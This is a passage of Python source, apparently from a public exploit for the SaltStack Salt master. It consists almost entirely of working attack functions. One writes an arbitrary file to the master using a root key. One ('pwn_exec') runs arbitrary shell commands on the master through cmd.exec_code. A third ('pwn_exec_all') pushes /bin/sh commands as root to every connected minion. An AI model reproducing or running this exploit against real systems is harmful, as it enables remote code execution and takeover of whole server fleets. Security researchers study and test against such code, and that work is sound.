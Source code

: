         try:
            fh = open(src, 'rb')
            payload = fh.read()
            fh.close()
        except Exception as e:
            print('[-] Failed to read {}: {}'.format(src, e))
            return

        msg = {
            'key': root_key,
            'cmd': 'wheel',
            'fun': 'file_roots.write',
            'saltenv': 'base',
            'data': payload,
            'path': dest,
        }

        rets = channel.send(msg, timeout=3)
        print('[ ] {}'.format(rets['data']['return']))

    def pwn_exec(channel, root_key, cmd, master_ip, jid):
        print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
        sys.stdout.flush()

        msg = {
            'key': root_key,
            'cmd': 'runner',
            'fun': 'salt.cmd',
            'saltenv': 'base',
            'user': 'sudo_user',
            'kwarg': {
                'fun': 'cmd.exec_code',
                'lang': 'python',
                'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
            },
            'jid': jid,
        }

        try:
            rets = channel.send(msg, timeout=3)
        except Exception as e:
            print('[-] Failed to submit job')
            return

        if rets.get('jid'):
            print('[+] Successfully scheduled job: {}'.format(rets['jid']))

    def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
        print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
        sys.stdout.flush()

        msg = {
            'key': root_key,
            'cmd': '_send_pub',
            'fun': 'cmd.run',
            'user': 'root',
            'arg': [ "/bin/sh -c '{}'".format(cmd) ],
            'tgt': '*',
            'tgt_type': 'glob',
            'ret': '',
            'jid': jid
        }
